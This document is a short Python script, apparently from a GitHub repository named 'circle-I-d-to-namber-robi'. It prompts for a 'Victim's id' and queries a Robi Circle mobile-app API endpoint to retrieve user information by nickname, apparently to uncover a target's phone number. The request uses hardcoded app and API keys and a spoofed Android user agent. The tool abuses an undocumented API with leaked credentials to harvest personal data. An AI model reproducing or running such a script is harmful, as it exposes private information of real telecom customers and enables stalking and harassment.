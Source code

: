 # circle-I-d-to-namber-robi
import requests nickname = str(input("Enter Your Victim's id:")) api = 'https://circle.robi.com.bd/mylife/appapi/appcall.php?op=getUserInfobyNickname='+nickname header_robi_circle = {     'User-Agent': 'Mozilla/5.0 (Linux; Android 8.1.0; CPH1909) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Mobile Safari/537.36',     'x-app-key':'000oc0so48owkw4s0wwo4c00g00804w80gwkw8kg',     'x-api-key':'815b7131d00f3762a6a19a5bde5423f1'} a=requests.get(api,headers=header_robi_circle)
